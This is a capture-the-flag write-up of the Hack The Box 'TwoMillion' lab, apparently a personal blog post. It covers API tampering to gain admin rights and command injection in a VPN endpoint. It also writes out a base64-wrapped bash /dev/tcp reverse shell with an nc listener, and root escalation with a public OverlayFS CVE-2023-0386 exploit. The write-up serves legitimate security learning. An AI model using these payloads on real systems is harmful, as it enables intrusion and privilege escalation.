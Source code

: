 ```yaml
---
layout: single
classes: #wide
title: "Hack The Box - TwoMillion"
toc: true
toc_sticky: false
author_profile: true
collection: posts
categories: [CTF, Hack The Box]
tags: [burp, api]
---
```

![box](/assets/images/twomillion/2mil_box.png)  
Hi, this is one of the first HTB boxes I have attempted.
Having done a few boxes in the past I had a little idea of 
what I was getting myself into but, this box put me through it.  

This is the first box I have tried using guided mode and it was a very
plesant supprise. If you haven't tried the HTB guided mode I would
definitely recommend it. 

### Nmap
Nmap scan:
![nmap scan](/assets/images/twomillion/nmap.png)  
nmap scan found 2 tcp ports

### Page Exploration
Adding the ip and 2million.htb to my /etc/hosts file I navigated to
the page. Upon investagation of the page there was a join page and a login
page. The join page needed a code to get in. 

![code_login](/assets/images/twomillion/code_login.png)  

Refreshing the page and looking in the network tab presented me with some
js files. One file was called inviteapi.min.js. The one issue with this
file is it was obfuscated.
![bad_code](/assets/images/twomillion/code_found_in_invite.api.min.js.png)  
Upon deobfuscating the code you get:  
![good_code](/assets/images/twomillion/fixed_code.png)  
Little more readable right?

Within this code there is the function makeInviteCode().
Executing this function manually within the console gives an output
encrypted in ROT13 (nothing a little cyberchef cant solve). Throwing the output into cyberchef you get the hint "In order to generate the invitation code, make a POST request to /api/v1/invitation/generate".
 
Curl came in clutch being able to send the post request:  
`curl -i -L -X POST -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -b "PHPSESSID=36tguu0940aidi58fmloe" http://2million.htb/api/v1/invite/generate`

The request responded with:   
{"0":200,"success":1,"data":{"code":"Tlk1VDQtV0tYSUYtSk82SlQtUTdVRFo=","format":"encoded"}}  

The code can be decrypted using the following command:   
`echo "Tlk1VDQtV0tYSUYtSk82SlQtUTdVRFo=" | base64 --decode`  
My code was: `NY5T4-WKXIF-JO6JT-Q7UDZ`  

Going back to the forum now that we had a valid invite code I created
my account with the credentials:  
Username: Ryushe  
Email: Ryushe.dev@gmail.com  
Password: Ryu  

### VPN
Upon loging in I was greeted with a older verion of the current HTB
website. The most important part of the entire page was the vpn
page. This page was able to create/regenerate a valid vpn key.  

Using burp to inspect the request I noticed that the page was sending
a request to `/api/v1/user/vpn/generate`. Modifying the request a 
little to see how the website worked, I was able to see all the
different things the api could do when I navigated to `/api`. Going up
one directory would show the user all the valid api requests. 

![api](/assets/images/twomillion/api_endpoints.png)  

Notice how there is a url to generate a vpn for not only a normal user,
but for an admin as well. 

Admin has an api request that allows us to check if we are admin:  
`GET /api/v1/admin/auth`  
Sending a GET request using burp we can see that we are indeed infact
not admin :(  
![Am_admin?][/assets/images/twomillion/admin_false.png]  

Now, there is another api url under the PUT category. This api link
allows the user to change admin settings. Using burp to send a
request will result in the a response saying "danger", "missing
perameter: email"

![email_not_valid](/assets/images/twomillion/Missing_email_peram.png)  

Adding the email perameter you get something that looks like this:  

![email_valid](/assets/images/twomillion/Missing_isadmin_peram.png)  

Adding in the admin block and then checking our admin status we get:  
Note: is_admin has to be set to 1 like this `"is_admin":1`  

![admin_true](/assets/images/twomillion/admin_true.png)  

Now, is when the magic starts to happen. We're root right? Ya, remember
the api call I mentioned before `api/v1/admin/vpn/generate`? We
can now successfully call that.

Calling the `vpn/generate` using a POST burp request it asks for us to give
it a user to make the vpn for. Putting
`{"username":"Ryushe"}`
in the request I get a successful vpn generation output.  

Now, this api endpoint has a command injection vulnerability in it.
We can test this by changing the request to `{"username":"Ryushe;ls;"}`  

### Command Injection Exploit
Now that we know that there is a command injection vulnerability we can
set-up a reverse shell into the machine. Using a basic reverse shell payload
(I used a bash reverse shell) we can encrypt it for transfer using:  
`echo "bash -i >& /dev/tcp/<ip of host>/8888 0>&1" | base64 `  
Now, we want to get a nc listener on our reverse shell:  
`nc -lvnp 8888`  
Copy the ouput and put it in where it says encrypted payload:  
`echo "<output of first command>" | base64 -d | bash`  
Paste the command into the machine you are attacking a press enter.
If all went went well you should now be in the machine.

Now, looking in the admin directory we see user.txt (the first flag)  
Hmm.. we need to take over admin user  

Taking a look at the .env file I was presented with the db name as well as
the the admin username and password.  
dbname=htb_prod  
username: admin  
password: SuperDuperPass123   
running: `su admin`  
with pass: `SuperDuperPass123`  
Loggs you into the admin account. Now, that you are admin you can get the 
user.txt file in the admin home directory. 

Upon logging into the user admin you are presented with a message:  

![mail](/assets/images/twomillion/1you_have_mail.png)  

Upon looking at the /var/mail directory I found the file mail:  

![mail_contents](/assets/images/twomillion/2mail.png)  

The email gave clues to check the db config so thats where I headed next.
Logging into mysql with the valid credentials I got from the .env file.
I did not find anything upon entering the mysql db.   

I decided to take another look at the email that was sent to admin. 
Upon further inpection I found that the email was talking about the
os that was hosting their services and something to do with overlayfs. 
Currently we are on version 22.04.1 of ubuntu and
googling ubuntu 22.04.1 overlayfs vunerabilities lead me to this [article](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/#how-the-cve-2023-0386-vulnerability-works).  
Upon further investagation I found this [repo](https://github.com/sxlmnwb/CVE-2023-0386) that worked wonders: 
1. Clone onto host system  
2. settup a `python -m http.server`  
3. wget --recursive --no-parent <http://myip:port>
4. going to the dir with 2 different terminals I made the process and ran it with   
`./fuse ./ovlcap/lower ./gc`  
5. In the second terminal I ran `./exp` (and just like that we had root)  

![root](/assets/images/twomillion/3proof_root.png)  

I ran sudo apt install plocate (to make finding the root flag easier)  
It did not.... (ended up waiting for it to fail over and over)  

Finally, I cd'ed into the root dir and there it was waiting for me the root.txt  
Catting the file I got the flag 


![pwn](/assets/images/twomillion/Proof_of_pwn.png)  


### What I Learned
* Command injection vulnerability
* Curl -X -L <url>   
    - how to format curl for redirects and post requests  
* To try to spawn a shell earlier.. I was too caught up with 
other things I totally forgot you can spawn shells to make things easier  
Also ldconfig allows you to see lib versions.. didnt know that
* Better understanding of how to send burp requests and modify data
    - eg: Command injections


